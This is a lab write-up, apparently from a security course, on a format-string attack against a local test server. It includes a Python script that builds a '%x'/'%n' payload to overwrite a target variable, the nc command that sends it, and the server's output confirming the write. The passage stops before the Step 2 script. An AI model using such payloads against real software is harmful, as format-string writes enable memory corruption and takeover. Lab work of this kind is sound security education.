 ## Task 3: Modifying the Server Program’s Memory

### Step 1: Change the value to a different value

The "%n" format specifier writes the number of characters written so far to the address of the variable provided as an argument, which is the first 4 bytes of the input buffer with this payload, i.e., the address of the target variable.

- Auxiliary script to generate the payload:
```py
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%8x\n"*63 + "%n"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

```bash
$ cat badfile | nc 10.9.0.5 9090
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd220
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd148
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | h11223344
server-10.9.0.5 |     1000
[...]
server-10.9.0.5 |        0
server-10.9.0.5 |      5dc
server-10.9.0.5 | The target variable's value (after):  0x0000023b
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Step 2: Change the value to 0x5000

To change the value to 0x5000 (20480 in decimal), we need to create a payload that respects two conditions:
- The number of characters printed until "%n" must be 20480, so that the target variable is set to 0x5000.
- The number of "%x" in the payload must be 63, so that the pointer used by "%n" is the address of the target variable, i.e., the first 4 bytes of the input buffer.
The following python script generates that payload:
